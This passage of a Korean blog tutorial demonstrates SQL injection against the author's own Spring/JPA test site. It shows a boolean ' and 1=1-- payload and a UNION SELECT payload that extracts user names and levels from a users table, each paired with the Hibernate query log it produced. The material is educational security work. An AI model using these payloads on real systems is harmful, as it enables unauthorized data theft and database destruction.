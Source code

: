 **<span style='color:red'>{% raw %} pname=차범근' and 1=1-\- {% endraw %}</span>**  
&nbsp;아까와는 다르게 결과가 나옵니다.  
1=1 조건을 넣으면 결과가 나오고 1=0 조건을 넣으면 결과가 나오지 않습니다.  
쿼리 로그를 보면 입력한 값 그대로 쿼리에 추가되어 조회된 것을 알 수 있습니다.  
  
![072211](https://user-images.githubusercontent.com/76927397/126612291-6c66fe88-ae9b-4ea0-9620-0ab88d1000ee.PNG)


```java
{% raw %}
2021-07-19 16:52:48.83 DEBUG 4212 --- [nio-8080-exec-8] org.hibernate.SQL                        : 
    select
        * 
    from
        PLAYER  
    where
        PLAYER_NAME='차범근' 
        and 1=1--';
{% endraw %}
```
  
<br>  
  
**취약점을 이용해 테이블 목록을 모두 탈취하였다고 가정하고 Users 테이블의 모든 선수를 조회해보겠습니다.**  
  
**<span style='color:red'>pname=차범근` union select 1, user_name , user_level from users</span>**  
  
![072212](https://user-images.githubusercontent.com/76927397/126612192-e9cb95dd-502f-4015-887b-b8cb7b5e37ba.PNG)


  
```java
{% raw %}

  2021-07-19 17:10:48.986 DEBUG 3284 --- [nio-8080-exec-2] org.hibernate.SQL                        : 
    select
        * 
    from
        PLAYER  
    where
        PLAYER_NAME='차범근' 
    union
    select
        1,
        user_name,
        user_level 
    from
        users--';
{% endraw %}
```
**이런 취약점을 잘 활용하면 공격자 마음대로 테이블을 다 날려버릴 수도 있겠군요.**  
  
<br>  

----  
&nbsp;**SQL Injection**의 개념과 종류에 대해 간단하게 알아보고 실제로 해보고,   
스프링의 JPA에서는 어떨까 알아보기 위해 자신의 웹 사이트 공격도 마다하지 않는  
**SQL Injection**의 겉을 핥아보는 시간을 가져보았습니다.  
